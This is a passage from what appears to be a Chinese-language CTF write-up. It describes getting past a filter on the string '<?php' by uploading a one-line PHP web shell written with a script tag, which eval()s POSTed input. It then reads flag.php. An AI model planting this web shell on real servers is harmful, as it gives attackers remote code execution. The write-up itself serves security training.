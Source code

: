发现字符<?php被过滤。

<div class="wp-block-image">
  <figure class="aligncenter size-large is-resized"><img loading="lazy" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/02/图片-41.png" alt="" class="wp-image-607" width="380" height="206" /></figure>
</div>

用这一段代码来代替。

<pre class="wp-block-code"><code>&lt;script language="pHp"&gt;@eval($_POST&#91;'cmd'])&lt;/script&gt;</code></pre>

成功进入。

<div class="wp-block-image">
  <figure class="aligncenter size-large"><img loading="lazy" width="1007" height="204" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/02/图片-42.png" alt="" class="wp-image-612" /></figure>
</div>

找到flag.php，拿到`flag{0123_4567_8901}`

<div class="wp-block-image">
  <figure class="aligncenter size-large is-resized"><img loading="lazy" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/02/图片-43.png" alt="" class="wp-image-615" width="171" height="44" /></figure>
</div>
